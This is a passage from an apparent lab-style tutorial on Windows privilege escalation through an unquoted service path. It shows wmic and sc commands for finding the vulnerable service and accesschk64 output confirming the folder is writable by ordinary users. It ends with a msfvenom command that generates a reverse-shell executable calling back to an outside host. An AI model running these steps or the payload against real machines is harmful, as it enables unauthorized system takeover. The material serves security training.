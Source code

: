 You can use the `sc start unquotedsvc` command to start the service. 

### Now Hands On Pratical

Now let open command prompt and run 

```
wmic service get name,displayname,pathname,startmode
```

![image](https://user-images.githubusercontent.com/69868171/154297740-092a1714-8ca2-4287-aec3-cefc590a02c1.png)


We can confirm the full path with `sc qc unquotedsvc` 


![image](https://user-images.githubusercontent.com/69868171/154298071-33bbab98-0580-4a79-ac1d-4f46bf1c795d.png)
 
Between it not quoted so we just need to confirm now if we have write access to any of the folder path using `accesschk64.exe` to mett the requirement to exploit the vulnerability.

```
C:\Users\user>C:\Users\user\Desktop\accesschk64.exe /accepteula -uwdq "C:\Program Files\"

Accesschk v6.10 - Reports effective permissions for securable objects
Copyright (C) 2006-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

C:\Program Files
  RW NT SERVICE\TrustedInstaller
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators

C:\Users\user>C:\Users\user\Desktop\accesschk64.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"

Accesschk v6.10 - Reports effective permissions for securable objects
Copyright (C) 2006-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

C:\Program Files\Unquoted Path Service
  RW BUILTIN\Users
  RW NT SERVICE\TrustedInstaller
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators

C:\Users\user>
```

Boom seems we have write access to the folder path `C:\Program Files\Unquoted Path Service\` and we know the next thing it will start looking for an executable file , starting with the shortest possible path `common` now let generate our executable file and transfer it to the folder path that we have write access to.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.1 LPORT=1337 -f exe > common.exe
```
